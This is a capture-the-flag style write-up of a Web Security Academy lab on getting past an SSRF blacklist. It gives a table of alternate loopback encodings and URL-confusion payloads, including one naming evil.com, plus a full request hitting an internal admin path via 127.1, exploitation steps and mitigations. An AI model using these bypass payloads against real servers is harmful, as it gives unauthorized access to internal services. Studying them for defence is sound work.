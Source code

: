 # 📘 Scenario 4: SSRF – Bypass Blacklist Filters via Alternate IP Formats

## 🔎 Vulnerability Description

In this scenario, the application attempts to prevent SSRF by blocking specific blacklisted values such as `localhost` or `127.0.0.1`. However, the filter is **poorly implemented** and fails to account for alternate representations of the same internal address (e.g., `127.1`, `LOCALHOST`, mixed casing), allowing the attacker to **bypass the blacklist** and perform SSRF.

> **Vulnerability Type:** Input Validation (Bypass), SSRF  
> **OWASP Top 10 ID:** A10:2021 – Server-Side Request Forgery  
> **Risk Level:** Medium  

---

## 🧠 Common Bypass Techniques

| Target Address | Bypass Variant |
|----------------|----------------|
| `127.0.0.1`     | `127.1`, `2130706433`, `0x7f000001` |
| `localhost`     | `LOCALHOST`, `LocAlHost`, `localhost%00` |
| Normal URL      | `http://127.1`, `http://127.0.0.1#@evil.com`, `http://127.0.0.1%2F..` |

---

## 🔧 Target

**URL:**


🔗 https://0acc009b035c39e98104173b00d7001f.web-security-academy.net/product/stock

---

## 📥 HTTP Request

```http
POST /product/stock HTTP/2
Host: 0acc009b035c39e98104173b00d7001f.web-security-academy.net
Cookie: session=Hgh3EncJZrjrEzW3M66PsxoGnQQPNILJ
Content-Length: 27
Sec-Ch-Ua: "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0acc009b035c39e98104173b00d7001f.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0acc009b035c39e98104173b00d7001f.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
 
stockApi=http://127.1/Admin

```
---
## 📥 Server Response
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Set-Cookie: session=5F1GuvvECrftQt3ks3539gTzkjlIXUY0; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 3074

```
---

## 🧪 Exploitation Steps

Send a request with the stockAPI parameter targeting an internal address.

Attempt variants such as:

`http://127.1/admin`

`http://LOCALHOST/admin`

`http://127.0.0.1#@external.com/`

Use Burp Suite Repeater to compare filtered vs bypassed results.

Observe any different responses that suggest successful SSRF.

## 💥 Potential Impact

- Blacklist filtering gives a **false sense of security**.

- Attacker can still access internal services by using alternate encoding.

- Allows data exposure or further pivoting (e.g., metadata service access).   

- **Precursor to RCE or lateral movement**.

## ✅ Mitigation Suggestions
- Do **not rely** on blacklist filtering alone.

- Use strict **allowlists** with resolved IP address checks.

- Normalize and canonicalize input before filtering.

- Block loopback and private IP ranges via server configuration, not only in code.

## 📸 Screenshot

![Exploitation Image Of Scenario 4](https://github.com/hovikhanh/ssrf-demo/blob/main/images/Picture4.png "Exploitation Image Of Scenario 4")

## 🔗 References

[PayloadsAllTheThings – SSRF Bypass Techniques](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md)

[OWASP SSRF Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)

> 🚨 This scenario highlights that SSRF protection using basic pattern matching is insufficient. Always verify resolved IPs and use robust filtering mechanisms.
